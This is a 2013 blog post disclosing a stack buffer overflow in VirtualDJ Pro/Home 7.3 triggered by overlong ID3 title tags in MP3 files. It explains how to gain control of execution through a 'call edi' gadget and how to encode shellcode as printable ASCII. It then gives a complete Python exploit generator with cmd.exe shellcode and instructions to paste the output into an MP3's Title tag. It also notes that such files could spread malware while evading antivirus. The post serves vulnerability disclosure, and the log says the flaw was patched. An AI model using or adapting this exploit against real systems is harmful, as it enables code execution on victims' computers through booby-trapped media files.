 ```yaml
---
layout: post
date: 2013-03-30
title: VirtualDJ Pro/Home 7.3: Buffer Overflow
author: Alexandro Sanchez
---
```


I have found a buffer overflow vulnerability in [VirtualDJ Pro 7.3 and VirtualDJ Home 7.3](http://www.virtualdj.com/) and possibly previous versions of this software. When the user enters a folder, VirtualDJ tries to retrieve all information from the ID3 tags of MP3 files inside such as _Title_, _Album_, and _Artist_ and stores it in a buffer. After that, a second buffer of length 4096 is allocated in the stack and only the characters `[A-Z]` from the first buffer will be copied to it. According to the ID3 v2.x standard, these tags can have a length greater than 4096; therefore it is possible to produce a buffer overflow in this second buffer. At the time when the buffer overflow happens and the program reaches the `retn` instruction, the `edi` register points to the first buffer.

We cannot assign the `eip` the address of the first buffer directly since it contains characters which are not in range A-Z. However if we take into account the previous information, we can do this indirectly: We write in the bytes 4100:4104 of the title `"FSFD"`. After the buffer overflows occurs we get `eip == 0×44465346 == "FSFD"`. At this address (inside _urlmon.dll_) we find a `call edi` instruction and so the bytes in the first buffer will be executed. Now we face another problem. VirtualDJ has inserted a 0xC3 byte (`retn`) before each non-printable ASCII character in the first buffer and we cannot execute the shellcode directly. We can solve this by pushing into the stack the bytes of the shellcode using only printable ASCII characters. Let me explain:

Instead of pushing the bytes 0xB8, 0xFF, 0xEF, 0xFF (FFEFFFB8h) directly, we can do exactly the same using only printable ASCII characters by using the string `"%@@@@%????-R@D@-R@D@-R@D@-R?C?P"`:

```asm
and   eax, 40404040h   ; 25 40 40 40 40  == "%@@@@"
and   eax, 3F3F3F3Fh   ; 25 3F 3F 3F 3F  == "%????"  <– eax == 0
sub   eax, 40444052h   ; 2D 40 44 40 52  == "-R@D@"
sub   eax, 40444052h   ; 2D 40 44 40 52  == "-R@D@"
sub   eax, 40444052h   ; 2D 40 44 40 52  == "-R@D@"
sub   eax, 3F433F52h   ; 2D 3F 43 3F 52  == "-R?C?"  <– eax == 0xFFEFFFB8
push  eax              ; 50              == "P"
```

Once all the bytes of the shellcode are pushed into the stack (in inverse order) we use `push esp` (0×54) and `retn` (0xC3) to run the shellcode. Obviously, it does not matter if VirtualDJ pushes another 0xC3 byte before this one.

This is a pretty serious vulnerability since VirtualDJ is considered the #1 software for mixing music with millions of downloads around the world. By exploiting this vulnerability it would be possible to spread quickly a malware just by uploading a malicious MP3 file in a popular site. Even worse, this file might not be a suspicious file for antivirus software. Note how the 4096 padding bytes could be replaced by something apparently harmless such as the real title of the MP3 file followed by a lot of spaces.

```python
#Exploit: VirtualDJ Pro/Home <=7.3 Buffer Overflow Vulnerability 
#By: Alexandro Sanchez Bach | functionmixer.blogspot.com 
#More info: http://www.youtube.com/watch?v=PJeaWqMJRm0
 
import string
 
def unicodeHex(c):
    c = hex(ord(c))[2:].upper()
    if len(c)==1: c = "0"+c
    return c+"00"
 
def movEAX(s):
    #Arrays 
    s = map(ord, list(s))
    inst = []
    target = [512, 512, 512, 512]
    carry  = [0,-2,-2,-2]
    for i in range(4):
        if s[i] < 0x10:
            target[i] = 256
            if i < 3:
                carry[i+1] = -1
    diff = [target[b] - s[b] for b in range(4)]
 
    #Gen instructions 
    for i in range(3):
        target = [target[b] - diff[b]/4 for b in range(4)]
        inst += [[diff[b]/4 for b in range(4)]]
    target = [target[b] - s[b] + carry[b] for b in range(4)]
    inst += [target]
     
    #Remove characters '[','\',']' 
    for b in range(4):
        if ord("[")  in [inst[i][b] for i in range(4)] or \
           ord("\\") in [inst[i][b] for i in range(4)] or \
           ord("]")  in [inst[i][b] for i in range(4)]:
            for i in range(4):
                inst[i][b] = inst[i][b] + 5*((-1)**(i))
     
    inst  = ["\x2D" + "".join(map(chr, i)) for i in inst]
    return "".join(inst)

#Shellcode: Run cmd.exe 
shellcode  = "\xB8\xFF\xEF\xFF\xFF\xF7\xD0\x2B\xE0\x55\x8B\xEC"
shellcode += "\x33\xFF\x57\x83\xEC\x04\xC6\x45\xF8\x63\xC6\x45"
shellcode += "\xF9\x6D\xC6\x45\xFA\x64\xC6\x45\xFB\x2E\xC6\x45"
shellcode += "\xFC\x65\xC6\x45\xFD\x78\xC6\x45\xFE\x65\x8D\x45"
shellcode += "\xF8\x50\xBB\xC7\x93\xBF\x77\xFF\xD3"
retAddress = "\xED\x1E\x94\x7C" # JMP ESP ntdll.dll WinXP SP2 
shellcode += retAddress
 
while len(shellcode) % 4 != 0:
    shellcode += '\x90'
exploit = ""
for i in range(0,len(shellcode),4)[::-1]:
    exploit += "\x25\x40\x40\x40\x40\x25\x3F\x3F\x3F\x3F"  #EAX = 0 
    exploit += movEAX(shellcode[i:i+4])  #EAX = shellcode[i:i+4] 
    exploit += "\x50"  #PUSH EAX 
exploit += '\x54\xC3' #PUSH ESP; RETN 
 
c = 0
for i in exploit:
    if i in string.ascii_letters:
        c += 1
exploit +=  "A" * (4100 - c)
exploit += "FSFD"
 
print exploit
#Paste the generated code in the tag 'Title' of the MP3 file.
```

You can see a demo of this proof of concept at: https://www.youtube.com/watch?v=PJeaWqMJRm0.

## Log

* __2012-11-29__: Bug discovered. VirtualDJ was emailed about this a few days later.
* __2013-03-20__: Bug fixed with the release of VirtualDJ Pro/Home 7.4.
* __2013-03-29__: Exploit published.
